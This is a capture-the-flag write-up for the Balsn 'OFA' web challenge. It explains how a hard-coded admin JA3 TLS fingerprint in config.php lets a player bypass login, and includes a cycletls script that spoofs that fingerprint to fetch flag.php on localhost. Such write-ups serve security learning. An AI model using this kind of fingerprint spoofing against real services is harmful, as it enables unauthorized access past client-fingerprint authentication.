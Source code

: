 ```yaml
---

title: "OFA (Balsn)"
date: 2023-08-10T11:30:03+00:00
tags: ["web","JA3 impersonate"]
categories: ["CTFs"]
author: "0x0Pwn"
image: "/CTFs/OFA.png"
comments: false
description: "This is a friendly server machine that is vulnerable because we can impersonate the JA3 signature."

---
```


## Room Information

- Room name: OFA
- Difficulty level: unknown (easy I think)
- Room link: https://balsnctf.com/challenges

![Untitled](/CTFs/OFA.png)

## Tools Used

- Docker
- Visual Studio
- Research

## Enumeration

On this type of machine, there is no need to analyse possible directories because it is not a BlackBox, we have all the code of the web page…

A screenshot of the website page:

![Untitled](/CTFs/1-OFA.png)

## Exploiting

After taking a look of the the firsts archives like index.php, I found one called config.php where i found very fast a vulnerability.

What the vulnerability did was the following: 

1- Define in a variable the JA3 signature that is unique for each client (coincidentally they leave the user admin signature here...). 

2- Then they compare it with the signature that is generated when you enter the web page with your browser…

![Untitled](/CTFs/2-OFA.png)

So the only thing left was to send a request to flag.php with the JA3 that was in config.php since that is the user admin, and we could bypass the login panel and access flag.php directly.

I learn some info of JA3 on this website → [Impersonating JA3 Fingerprints. Researchers: Max Harley, Matthew… | by Matthew Rinaldi | CU Cyber | Medium](https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42)

Then I look for some scripts of JA3 impersonating and I found one which I then modify to this:

```tsx
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
  // Initiate CycleTLS
  const cycleTLS = await initCycleTLS();

  // Send request
  const response = await cycleTLS('https://localhost:8787/flag.php', {
    body: 'username=admin',
    ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
    userAgent: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60',
    headers:
    {
      'Content-Type' : 'application/x-www-form-urlencoded'
    }

  }, 'post');

  console.log(response);

  // Cleanly exit CycleTLS
  cycleTLS.exit();

})();
```

Then to compile the file I did on my cmd: `tsc ofa-srcipt.ts` and then to execute node `ofa-srcipt.js`

![Untitled](/CTFs/4-OFA.png)

And there is the flag…👹

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about JA3
    
- Where there any novel tools or techniques employed?
    
    The use of docker.
